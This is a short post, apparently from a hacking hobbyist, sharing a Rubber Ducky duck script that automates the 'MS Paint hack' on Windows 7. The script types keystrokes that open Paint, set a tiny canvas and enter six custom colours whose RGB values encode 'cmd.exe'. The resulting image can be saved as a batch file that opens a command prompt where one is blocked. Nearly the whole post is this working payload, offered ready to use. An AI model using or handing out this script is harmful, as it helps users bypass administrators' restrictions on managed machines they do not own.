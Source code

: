 The following is some duck script I made for easily setting up the MS Paint hack from way back in episode 925. Machines secured correctly with group policies are not susceptible to this attack. You are still required to save the file correctly, and input the colors in the correct order, but they should already be in the correct order in the custom color box. The setup script can only work for Windows 7, because Windows Vista's paint app messes up the input.

```
REM by overwraith
REM PAINTHACK_WINDOWS7 BEGINS
REM MSPAINT hack revealed by "Operator"
CONTROL ESCAPE
DELAY 200
STRING mspaint
ENTER
DELAY 1000
CTRL e
STRING 6
TAB
STRING 1
ENTER
CTRL PAGEUP
REPEAT 5
REM ****FIRST COLOR****
ALT h
STRING EC
ALT r
STRING 10
TAB
STRING 0
TAB
STRING 0
ENTER
REM ****SECOND COLOR****
ALT h
STRING EC
ALT r
STRING 13
TAB
STRING 10
TAB
STRING 13
ENTER
REM ****THIRD COLOR****
ALT h
STRING EC
ALT r
STRING 100
TAB
STRING 109
TAB
STRING 99
ENTER
REM ****FOURTH COLOR****
ALT h
STRING EC
ALT r
STRING 120
TAB
STRING 101
TAB
STRING 46
ENTER
REM ****FIFTH COLOR****
ALT h
STRING EC
ALT r
STRING 0
TAB
STRING 0
TAB
STRING 101
ENTER
REM ****SIXTH COLOR****
ALT h
STRING EC
ALT r
STRING 0
TAB
STRING 0
TAB
STRING 0
ENTER
```